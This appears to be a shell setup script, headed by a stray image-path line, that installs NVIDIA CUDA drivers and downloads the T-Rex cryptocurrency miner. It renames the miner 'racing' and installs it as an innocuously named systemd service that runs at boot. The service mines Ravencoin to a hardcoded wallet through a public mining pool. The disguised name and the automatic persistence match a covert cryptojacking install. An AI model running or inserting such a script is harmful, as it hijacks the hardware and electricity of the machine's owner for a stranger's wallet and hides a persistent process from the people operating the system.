 #!/bin/bash
cd /home
sudo apt-get install linux-headers-$(uname -r) -y
distribution=$(. /etc/os-release;echo $ID$VERSION_ID | sed -e 's/\.//g')
wget https://developer.download.nvidia.com/compute/cuda/repos/$distribution/x86_64/cuda-$distribution.pin
sudo mv cuda-$distribution.pin /etc/apt/preferences.d/cuda-repository-pin-600
sudo apt-key adv --fetch-keys https://developer.download.nvidia.com/compute/cuda/repos/$distribution/x86_64/7fa2af80.pub
echo "deb http://developer.download.nvidia.com/compute/cuda/repos/$distribution/x86_64 /" | sudo tee /etc/apt/sources.list.d/cuda.list
sudo apt-get update
sudo apt-get -y install cuda-drivers
sudo apt-get install libcurl3 -y
wget https://github.com/trexminer/T-Rex/releases/download/0.26.8/t-rex-0.26.8-linux.tar.gz
tar xvzf t-rex-0.26.8-linux.tar.gz
mv t-rex racing
sudo bash -c 'echo -e "[Unit]\nDescription=Racing\nAfter=network.target\n\n[Service]\nType=simple\nExecStart=/home/racing -a kawpow -o stratum+tcp://asia-rvn.2miners.com:6060 -u RNFHXZ2EUccqiGqP5UWBotqX8nvxLYS6DX.nva -p x\n\n[Install]\nWantedBy=multi-user.target" > /etc/systemd/system/racing.service'
sudo systemctl daemon-reload
sudo systemctl enable racing.service
sudo ./racing -a kawpow -o stratum+tcp://asia-rvn.2miners.com:6060 -u RNFHXZ2EUccqiGqP5UWBotqX8nvxLYS6DX.nva -p x
